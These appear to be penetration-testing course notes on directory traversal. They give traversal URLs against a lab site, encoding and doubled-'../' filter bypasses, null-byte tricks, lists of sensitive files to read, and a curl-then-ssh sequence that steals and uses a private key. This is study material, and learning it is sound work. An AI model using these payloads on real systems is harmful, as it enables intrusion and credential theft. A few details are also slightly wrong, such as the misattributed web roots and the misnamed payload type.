 
Allows attackers to gain unauthorized access to files within an app or files not normally accessible through a web interface.  
This vuln occurs when input is poorly validated allowing for manipulation of file paths with _**../**_ or _**..\\**_  
  
Can be used to help facilitate [file inclusion](9.2%20-%20File%20Inclusion.md) attacks.  

#### Absolute paths
Ex (from user's home folder):   /etc/passwd
- Specifies the full file system path including all subdirectories
- Starts with a '/' to denote the root file system

#### Relative paths
Ex (from user's home folder): ../../etc/passwd
- Refer to the path of a file/ dir relatively from where you currently are
	- Ex:     ../
- Number of **../** sequences is only relevant until the root file system is reached.
- Theoretically, can add as many **../** as desired, since there is nowhere further back to go from **/**
	- Can be useful in certain situations: when we don't know our current working directory.
		- Could specify a large number of **../** to ensure we reach the root file system from a relative pathing perspective.

#### Standard web root directories

Apache
- /var/www/html/  
MariaDB
- C:/xampp/htdocs/  
Nginx
- /usr/share/nginx/html  
- /data/www/

## ID'ing

Always important to hover over all buttons and links to gather info about the page's structure and how parameters are crafted, etc.

Found by examining URL query strings and form bodies in search of values that appear as file references (inc file extensions in URL query strings)  
Ex URL:  
```html
http://target.com/cms/login.php?language=en.html
```
	Note: Site uses php ^ (most aren't this obvious)
	the *language* parameter has an HTML page as its value.  if you can successfully open it, you can canfirm that en.html is a file on the server
		and can try other file names.
	*cms* directory indicates that the web app is running in a subdirectory of the web root
	
Test if file exists on the server:
```html
http://target.com/cms/en.html
```
	If successful, means it's a file stored on the server and allows for a potential entry point for other file names
	Always examine parameters closely when they use files as a value.

Depending on the error message received after playing with the ‘file’ parameter value, we may determine the OS and be able to adjust the XSS payload to target specific files  
Ex URL:  
```html
http://target.com/menu.php?file=c:\windows\system32\drivers\etc\hosts
```


## Testing

When viewing sites and their pages URLs, noticing how parameters for viewing these pages is important.
Scrolling down to the bottom of OSCP's example site, notice a link labeled 'Admin'
![](admin_oscpsite.png)
	Hovering over reveals the link:
```html
http://mountaindesserts.com/meteor/index.php?page=admin.php
```

PHP uses **$\_GET** to manage variables via the GET request.

Clicking on the link presents us an error message stating that the page is currently under maintenance.
![](adminlink_oscpsite.png)
	This info is shown on the SAME page as the index....

Navigating to **hxxp://mountaindeserts[.]com/meteor/admin.php** will show the SAME message that was shown on the **index.php** page after clicking the 'Admin' link.

***What this indicates***  is that the webapp includes the content of the admin.php page via the *page* parameter and displays it under the 'Admin' link
	- Hints at a potentially vulnerable parameter

Can now try to use **../** to traverse directories
```html
http://mountaindesserts.com/meteor/index.php?page=../../../../../../etc/passwd
```
![](dir_traversal.png)

## Encoding Special Characters

Because leveraging **../** is a known way to abuse web application behavior, this sequence is often filtered by either the web server, web application firewalls, or the web application itself.

So we can use URL encoding (Percent encoding) to potentially bypass the filters

[ASCII encoding table](https://www.w3schools.com/tags/ref_urlencode.asp)

**..** = **%2e**
**/** = **%2F**
```html
http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

### Encoding in [BurpSuite](Tools.md#BurpSuite)

BurpSuite also has a Decoder tab.

Allows for easy Encoding and Decoding for various types
- URL
- HTML
- Base64
- ASCII hex
- Hex
- Octal
- Binary
- Gzip

### Multiple ../

Also possible to use multiple sets of ../ within so that if the filter strips one set of ../ it'll leave the other.
```bash
http://192.168.50.16/cgi-bin/....//....//....//....//etc//passwd
```

## Useful directories and files

When retrieving important files (rsa private key for example), use [**curl**](OS%20Commands.md#curl) to obtain the information.
- Browsers often try to parse or optimize elements for user friendliness which could lead to issues.
- HTTP code with be returned, so only copy/ save the part you need.
	- For SSH keys, copy from **-----BEGIN OPENSSH PRIVATE KEY-----** through **-----END OPENSSH PRIVATE KEY-----** only
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../../home/offsec/.ssh/id_rsa
# copy ssh key parts only & save to a file <key_file>
# change the perms of the file to be strict
chmod 400 <key_file>
# connect via their ssh key
ssh -i <key_file> -p 2222 offsec@mountaindesserts.com
```

#### Linux  - /
- /etc/password - (get user names)
- /etc/shadow - (get user hashes)
- /etc/hosts - (get internal network mapping)
- /home/\<user>/.ssh/id_rsa - (get ssh keys from said users)
  
#### Windows  - \\
- C\:\\boot.ini
- C\:\\windows\\system32\\drivers\\etc\\hosts
- C:\\inetpub\\logs\\LogFiles\\W3SVC1\\. - (If running IIS web server, get logs)
- C:\\inetpub\\wwwroot\\web.config - (If running IIS web server, potentially get usernames or passwords)
  
  
## Null Bytes
Developers can specify the type of file it's looking for:  
```html
http://target.com/menu.php?file=/etc/passwd
<!--becomes-->
http://target.com/menu.php?file/etc/passwd.php
```
  
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```html
http://target.com/menu.php?file=/etc/passwd%00
```


*This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```html
http://target.com/menu.php?file=../../../../etc/passwd/.
```
